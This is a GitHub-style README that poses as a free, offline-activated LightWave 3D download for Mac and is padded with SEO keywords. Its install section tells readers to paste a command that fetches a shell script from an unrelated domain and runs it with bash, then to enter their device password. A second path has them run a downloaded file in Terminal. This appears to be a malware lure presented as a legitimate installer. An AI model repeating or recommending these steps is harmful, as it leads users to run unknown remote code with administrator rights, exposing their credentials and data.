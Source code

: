 # LightWave 3D for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://lightwave-3d-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)  

---

## 🎯 What You Unlock

- 🔹 Advanced 3D modeling and rendering tools  
- 🎨 High-quality texture mapping and animation features  
- 🚀 Real-time viewport rendering and scene editing  
- 🛠 Customizable workflow and plugin support  
- 🔐 Offline activation for uninterrupted usage  

---

## 🖼 Preview

![LightWave 3D Trial Screen](https://www.awn.com/sites/default/files/styles/original/public/image/featured/1025115-lightwave-3d-offers-free-90-day-lightwave-trial.png?itok=Kg6yQZ0-)  


![LightWave 3D Modelling](https://www.iamag.co/wp-content/uploads/2013/11/Nevron_003.jpg)  


![LightWave 3D Animation](https://i.namu.wiki/i/uKK4deJ5uHcBwf4LZLEP_7cWhuEL02L3E_B35niSdAAo4bJm3cMrSWpbK1HI8W0CjpdYYj7XDGXaIVIFmQAJeQ.webp)  


---

## 🔍 SEO Keywords

lightwave 3d, lightwave software, lightwave 3d download, lightwave 3d software, lightwave newtek, newtek lightwave 3d, lightwave 3d download free, lightwave 3d mac, lightwave 3d tutorial, lightwave 3d offline setup, lightwave 3d activation, lightwave 3d rendering, lightwave 3d modeling, lightwave 3d animation, lightwave 3d full version, lightwave 3d no login, lightwave 3d offline license, lightwave 3d 3d design, lightwave 3d professional tools, lightwave 3d workflow, lightwave 3d texture mapping, lightwave 3d plugin support, lightwave 3d user guide, lightwave 3d mac download, lightwave 3d 3d software mac
